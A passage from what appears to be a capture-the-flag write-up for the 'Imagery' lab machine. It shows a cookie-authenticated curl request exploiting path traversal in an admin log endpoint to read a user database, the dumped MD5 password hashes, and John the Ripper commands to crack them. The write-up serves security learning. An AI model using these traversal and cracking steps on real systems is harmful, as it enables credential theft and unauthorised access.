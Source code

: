 </aside>

then

<aside>
💡

curl -s -H "Cookie: $COOKIE" \
"[http://10.129.52.240:8000/admin/get_system_log?log_identifier=../../../../home/web/web/db.json](http://10.129.184.125:8000/admin/get_system_log?log_identifier=../../../../home/web/web/db.json)" | jq .

</aside>

We get some users hashes:

<aside>
💡

Users": [
{
"username": "admin@imagery.htb",
"password": "5d9c1d507a3f76af1e5c97a3ad1eaa31",
"isAdmin": true,
"displayId": "a1b2c3d4",
"login_attempts": 0,
"isTestuser": false,
"failed_login_attempts": 0,
"locked_until": null
},
{
"username": "testuser@imagery.htb",
"password": "2c65c8d7bfbca32a3ed42596192384f6",
"isAdmin": false,
"displayId": "e5f6g7h8",
"login_attempts": 0,
"isTestuser": true,
"failed_login_attempts": 0,
"locked_until": null
}
],

</aside>

## Hash cracking

Save the hash locally:

```bash
echo '2c65c8d7bfbca32a3ed42596192384f6' >> hashes.txt

```

Crack with John:

```bash
john --format=raw-md5 --wordlist=rockyou.txt hashes.txt

```
